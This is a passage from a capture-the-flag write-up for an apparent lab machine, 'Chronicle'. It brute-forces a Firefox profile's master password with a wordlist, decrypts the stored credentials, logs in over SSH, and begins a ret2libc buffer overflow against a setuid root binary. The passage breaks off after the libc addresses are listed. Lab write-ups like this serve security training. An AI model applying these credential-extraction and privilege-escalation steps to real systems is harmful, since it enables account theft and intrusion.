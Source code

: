   ```sh
                  exit 0
          fi
  done < "$1"
  echo "Password not found"
  ```

  ```sh
  bash firefox_decrypt_brute.sh /usr/share/wordlists/rockyou.txt
  # we get the password "password1"

  python ~/Tools/firefox_decrypt.py ~/chronicle/home/carlJ/.mozilla/firefox
  # this gives us the password 'Pas$w0RD59247' for username 'dev'
  ```

* Now that we have a password from 'carlJ', we can use that to SSH:

  ```sh
  ssh carlJ@chronicle.thm
  # this works using password found from firefox profile

  ls -la
  # we have an uncommon folder here

  ls -la mailing
  # this includes 'smail', a file owned by root
  # it has the s-bit set
  # this is writable by us

  cd mailing

  file smail
  # 64-bit executable

  ./smail
  ```

* Running the binary 'smail', we can see two options - sending a message and changing our signature

* We can see that there is a limit to the input content; we can try a buffer overflow attack here using [ret2libc](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc); [example](https://blog.kuhi.to/rop-with-one-gadget/):

  * Start by noting down the location of the library that the binary relies on:

    ```sh
    ldd smail
    ```

    ```text
    linux-vdso.so.1 (0x00007ffff7ffa000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff79e2000)
    /lib64/ld-linux-x86-64.so.2 (0x00007ffff7dd3000)
    ```
  
  * Following the given example, we can refer the address for ```libc.so.6``` - ```0x00007ffff79e2000```
